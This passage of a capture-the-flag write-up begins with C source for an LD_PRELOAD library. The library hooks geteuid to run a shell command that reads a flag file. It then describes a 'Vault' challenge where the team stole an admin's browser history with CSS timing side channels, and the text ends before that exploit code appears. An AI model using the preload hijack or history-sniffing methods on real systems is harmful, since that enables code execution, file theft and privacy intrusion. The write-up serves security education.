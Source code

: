 
```c
/* compile: gcc -shared -o lol.so ./a.c -ldl */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int  geteuid() {
  char *cmd;
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
  printf("content-type: text/plain\n\n");
  puts("WOOOOOOW");
  puts("FOOOOOO");
  system("cat /flag");
  puts("FFFFFF");
  exit(0);
  return 1;
}
```

## Vault

> 8 solves
> Author: vakzz
> Description: Can you unlock the secret from the vault?

#### Intro

The goal of this challenge was stealing browser's history. Basically admin navigates to 14 paths and then our given url and we have to somehow exfil those pathes in 30 seconds. We knew that there are methods to steal browser's history with css but all of them were either required user interaction or had patched. It almost took us 24 hours to solve this. We had to try many method on given environment and find a reliable one. I think we found three methods which were working locally but not on env/remote. The challenge and infras were pretty good but i think we could just do it better. 

#### osint

We started with finding papers/blogs about sniffing browser history with css. We first started with [this](https://bugs.chromium.org/p/chromium/issues/attachmentText?aid=340773) but it was slow. Then we tried methods in [this](https://cseweb.ucsd.edu/~dstefan/pubs/smith:2018:browser.pdf) paper but our exploits for them were slow too and sometimes unstable. Actually i think the problem was that our exploits were not good ( although we tried many combinations ). previous methods were working on remote but they were slow... Finally we found [this](https://github.com/onlyvae/Browser-History-Sniffing) and could speed it up ( actually we just changed few numbers lmao ). I think reloading page after each leak made it working. 

#### How is the exploit working?

you can find paper about how this exploit works [here](https://github.com/onlyvae/Browser-History-Sniffing/blob/master/history_sniff_NDSS_.pdf). Basically the function which you pass to `requestAnimationFrame` as argument will be called when browser wants to create new frame. For example the following code should print a number close to the fps of your browser.
